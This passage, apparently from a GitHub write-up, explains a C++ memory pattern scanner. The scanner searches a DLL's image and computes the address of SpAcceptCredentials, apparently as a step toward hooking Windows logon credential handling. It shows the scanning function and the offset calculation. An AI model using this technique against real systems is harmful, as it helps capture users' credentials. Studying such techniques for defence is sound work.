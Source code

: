 **why we need sizeofimage:**
- **scan boundaries**: pattern scanner needs to know where to stop
- **memory safety**: prevents scanning beyond dll boundaries
- **efficiency**: avoids unnecessary memory access

## pattern scanning

### pattern matching algorithm

```cpp
PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
    unsigned int index = 0;
    PVOID patternAddress = NULL;
    char *patternByte = 0;
    char *memoryByte = 0;
    
    do {
        if (startAddress[index] == pattern[0]) {
            for (size_t i = 1; i < patternSize; i++) {
                *(char *)&patternByte = pattern[i];
                *(char *)&memoryByte = startAddress[index + i];
                
                if (patternByte != memoryByte) {
                    break;
                }
                
                if (i == patternSize - 1) {
                    patternAddress = (LPVOID)(&startAddress[index]);
                    return patternAddress;
                }
            }
        }
        ++index;
    } while (index < searchBytes);
    
    return (PVOID)NULL;
}
```

**algorithm steps:**
1. **linear scan**: search through memory byte by byte
2. **first byte match**: look for first byte of pattern
3. **full pattern check**: if first byte matches, check remaining bytes
4. **return address**: return address of pattern start if found

**pattern location calculation:**
```cpp
patternStartAddressOfSpAccecptedCredentials = GetPatternMemoryAddress(...);
addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);
```

